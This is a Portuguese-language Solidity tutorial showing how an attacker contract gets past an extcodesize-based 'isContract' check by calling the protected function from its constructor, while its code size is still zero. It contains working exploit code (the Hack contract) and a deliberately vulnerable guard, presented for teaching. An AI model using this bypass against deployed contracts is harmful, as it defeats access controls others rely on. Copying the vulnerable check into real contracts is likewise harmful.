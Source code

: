 # Ignorar a Verificação do Tamanho do Contrato

#### Vulnerabilidade <a href="#vulnerability" id="vulnerability"></a>

Se o endereço for um contrato, o tamanho do código armazenado no endereço será maior que  0 certo?

Vamos ver como podemos criar um contrato com tamanho de código retornado  `extcodesize` igual a 0.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

contract Target {
    function isContract(address account) public view returns (bool) {
        // Esse método tem como base o extcodesize, que retorna 0 para contratos
        // em construção, desde que o código seja somente armazenado no 
        // final da execução do constructor.
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}

contract FailedAttack {
    // Tentativa de chamar Target.protected falhará,
    // Chamadas de bloco alvo do contrato
    function pwn(address _target) external {
        // Isso vai falhar
        Target(_target).protected();
    }
}

contract Hack {
    bool public isContract;
    address public addr;

    // Quando o contrato está sendo criado, o tamanho do código (extcodesize) é 0.
    // Isso vai ignorar a verificação do isContract()
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        // Isso vai funcionar
        Target(_target).protected();
    }
}
```
